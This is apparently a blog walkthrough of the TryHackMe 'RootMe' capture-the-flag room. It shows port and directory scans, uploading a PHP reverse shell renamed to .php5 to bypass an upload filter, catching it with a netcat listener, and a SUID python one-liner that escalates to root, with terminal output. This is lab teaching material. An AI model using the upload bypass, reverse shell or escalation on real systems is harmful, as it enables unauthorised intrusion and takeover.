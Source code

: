 ```yaml
---
title: TryHackMe RootMe
date: 2021-07-06T13:36:08+05:30
lastmod: 2021-07-06T13:36:08+05:30
author: Animesh Roy
avatar: /img/avatar.jpeg
authorlink: https://bit.ly/34sGFiK
cover: /img/thm.gif # for tryhackMe

categories:
  - TryHackMe
tags:
  - tryhackme
  - rooms
  - thm
  - RootMe

draft: false
description: TryHackMe Room RootMe solved by Animesh Roy. this is a walkthough. read more...

---
```

## RootMe

## Task 01: Deploy the Room

---

## Task 02:  Reconnaissance

### 2.1

**Scan the machine, how many ports are open?**

run the command: `nmap -sC -sV -oN nmap MACHINE_IP`

### 2.2

**What version of Apache is running?**

Ans is in [task 2.1](#21) output result. use `cat nmap` to see the output file.

### 2.3

**Find directories on the web server using the GoBuster tool.**

`gobuster dir -u 10.10.71.82 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

### 2.4

**What is the hidden directory?**

ans is in output of [task 2.3](#23)

---

## Task 03: Getting a shell

* find a php shell and copy to home dir.
  
     ```bash
     root@ip-10-10-167-77:~# locate php-reverse
     /usr/share/webshells/php/php-reverse-shell.php
     /usr/share/wordlists/SecLists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php
     root@ip-10-10-167-77:~# cp /usr/share/webshells/php/php-reverse-shell.php .
     
     ```

* Modify the shell with our VPN IP & Port(you can select any port number)
  
     ```bash
     49 $ip = 'YOUR_VPN_IP';  // IP line 49
     50 $port = 9001;       // PORT line 50
     ```

* start a listener on our system  

     ```bash
     nc -lvnp 9001 #our port numebr
     ```

* Upload the php file to the website using the hidden directory we found in [task 2.3](#23)

     you'll receive this error msg:

     ![img](https://i.imgur.com/S7aP6XZ.png)

     seems like some short of php filering?? let's try with diffrent php extention like `php5` instead of `.php` our new shell file is now `rev.php5`
     
     ```bash
     root# mv rev.php rev.php5
     ```

     let's try again!

     **IT WORKEDDD!!!**

     ![img](https://i.imgur.com/MomaQ6I.png)

     now let's browse to `http://MACHINE_IP/uploads` and click on our file name `rev.php5`

     Check the terminal, we got a connection back!!

     ![rev](https://i.imgur.com/b5JhLhS.png)


### 3.1

**find the user flag**

* run this command
  
     ```bash
     root# find / -type f -name user.txt 2> /dev/null

     root# /var/www/user.txt #location. 

     root# cat /var/www/user.txt #read the flag

     ```

    * -type f – you are telling find to look exclusively for files
    * -name user.txt – instructing the find command to search for a file with the name “user.txt”
    * 2> /dev/null – so error messages do not show up as part of the search result

---
<!-- Google Ads -->
<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->

---

## task 04: Privilege escalation

### 4.1

**Search for files with SUID permission, which file is weird?**

* running this command reveals the binary `find / type -f -user root -perm -u=s 2> /dev/null`

> HINT: A snake? or a program named after Snake?

### 4.2

* Check gtfobins on how to exploit the suid above. Access [gtfobins here](https://gtfobins.github.io/). Then search for the specific binary you found above and study how you can exploit through SUID.
  
     `python -c 'import os; os.execl("/bin/sh", "sh", "-p")`

```bash
root@ip-10-10-167-77:~$ nc -lvnp 9001
Listening on [0.0.0.0] (family 0, port 9001)
Connection from 10.10.71.82 39224 received!
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:49:18 up 38 min,  0 users,  load average: 0.00, 0.02, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

     # you might see a blank line, just type `id` or `whoami` to verify root

id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
cat /root/root.txt
THM{blaah-blah}
```


---
<!-- Google Ads -->

<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->


<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="anir0y" data-description="Support me on Buy me a coffee!" data-message="" data-color="#5F7FFF" data-position="Right" data-x_margin="18" data-y_margin="18"></script>

<!-- EOF -->
